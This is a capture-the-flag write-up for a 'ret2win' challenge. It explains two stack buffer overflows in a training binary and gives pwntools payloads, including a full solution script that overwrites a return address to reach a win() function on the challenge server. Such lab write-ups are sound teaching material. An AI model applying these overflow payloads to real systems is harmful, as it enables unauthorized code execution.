


# CTF League - ret2win

For this challenge we were provided with a binary file, so our first step was to disassemble in ghidra. Checking strings first, we find a string "./flag.txt" used to print the contentx of a file "flag.txt" in a function `win()`, that is unfortunately not called anywhere in the program... Could be useful later. 

Going back to looking at the programs actual entry point, we find a simple buffer overflow:
```c
char input_buffer [20];
long target_cmp;

target_cmp = 0;
puts("Reply \"yes\" if you remember how to overwrite data");
fflush(stdout);
fgets(input_buffer,0x20,stdin);
if (target_cmp == -0x4522135041103502) {
    part2();
}
```
In this decompiled C, the call to `fgets` will write up to 32 bytes into a 20 byte character array. We can see in the disassembly that these are both contigously stack allocated:



With this in mind, we simply need to fill the input buffers 20 bytes with arbitrary data, followed by the value `-0x4522135041103502`. Unforunately, this is not printable ASCII, so we have to resort to pwntools, which allows us to handle it nicely as a signed hex value.
```py
# payload 1
offset = 20                      
target = -0x4522135041103502     
payload = b"A" * offset + p64(target, signed=True)

p.sendline(payload)
```

## Part 2
This brings us to the part 2 function, which has another, much larger buffer overflow:
```c
char input_buffer [32];
puts(
    ...
)
fflush(stdout);
fgets(input_buffer,100,stdin);
return;
```

In this case we write 100 bytes into a 32 byte buffer, and, conveniently, immediately return. Even more conveniently, we can see in the disassembly that the input buffer is right next to the return address (i.e no stack canary or other things to worry about).  



The disassembly tells us that the input buffer is located at an  offset -0x28 from the stack, or 40 bytes. This makes sense given it's a 32 byte value, with a little bit of padding before the return address. Because we have a 100 bytes of write room to work with, we have more than enough room to reach this address and write our own return address. 

We can now go back to our `win()` function and find its memory address. Knowing the return address is offset 40 bytes from the  input buffer, we can write 40 bytes of arbitrary characters, followed by the `win()` address, causing the program to return to our `win()` function instead of back to it's actual callee, Granting us the flag

```py
# payload 2
target_addr = 0x00400687
offset2 = 40
payload2 = b"A" * offset2 + p64(target_addr) 

p.sendline(payload2)
p.interactive()
```

## Solution Script
```py
#!/usr/bin/python3

from pwn import *

p = remote("ret2win.ctf-league.damsec.org", 1304)

# payload 1
offset = 20                      
target = -0x4522135041103502     
payload = b"A" * offset + p64(target, signed=True)


# payload 2
target_addr = 0x00400687
offset2 = 40
payload2 = b"A" * offset2 + p64(target_addr) 

p.sendline(payload)
p.recvline()
p.sendline(payload2)
p.interactive()
```
